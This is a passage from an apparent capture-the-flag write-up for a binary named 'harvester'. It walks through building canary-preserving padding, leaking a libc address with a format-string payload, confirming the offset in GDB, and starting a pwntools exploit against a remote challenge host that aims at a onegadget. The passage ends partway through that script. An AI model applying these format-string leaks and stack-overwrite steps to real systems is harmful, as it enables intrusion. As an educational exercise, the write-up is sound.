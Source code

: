 ```
padding = b'a' * 40 + canary + b'b' * 8
``` 
But we are only able to overwrite 8 bytes of the return address. Since there is no obvious win function, we should be able to make this work with a onegadget. However, we will need to leak a libc address, so we return to the format string exploit. If you iterated up from 1 to 11 on the format string, you may have noticed that %3$p appeared to be leaking a libc address. I would recommend doing this on an Ubuntu machine with the LD_PRELOAD trick in order to ensure that the libc function matches the one on the live instance. We first need to add lines onto the existing script like this:
```
print(target.recvuntil(b'[4] Run'))
target.sendline(b'1')

print(target.recvuntil(b'[4]'))


target.sendline(b'%3$p')

print(target.recvuntil(b'Your choice is: '))
result = target.recvuntil(b'You are')
libc_leak_str = result.replace(b'\n\x1b[1;31m\nYou are', b'')
libc_leak_num = int(libc_leak_str, 16)
```
Since we are given the libc version, it's a good idea to run it against both the local version and the live instance to confirm that the offsets are the same. Now we need to run it against the local version with GDB and look at the contents of the leaked address:
```
gef➤  x/2wx 0x7fd08f8ab774
0x7fd08f8ab774 <nanosleep+20>:	0xf0003d48	0x4477ffff
```
So, if we subtract 20 from our leak, we have the libc address of the nanosleep function. We can use this to derive the libc base and successfully call the onegadget. The final exploit script is here:
```
from pwn import *

#target = process('./harvester', env={"LD_PRELOAD":"./libc.so.6"})

target = remote('188.166.145.178', 31815)

#pid = gdb.attach(target, "\nb *stare+212\nb *fight+176\n set disassembly-flavor intel\ncontinue")


elf = ELF("harvester")
libc = ELF("libc.so.6")

#Gadgets:

onegadget_offset = 0x4f3d5

def inc_pie(amount):
	print(target.recvuntil(b'[4] Run'))
	target.sendline(b'2')
	print(target.recvuntil(b'Do you want to drop some? (y/n)'))
	target.sendline(b'y')
	print(target.recvuntil(b'How many do you want to drop?'))
	value = amount * -1
	target.sendline(str(value).encode()) 

#Leak the canary
print(target.recvuntil(b'[4] Run'))
target.sendline(b'1')

print(target.recvuntil(b'[4]'))
target.sendline(b'%11$p')

```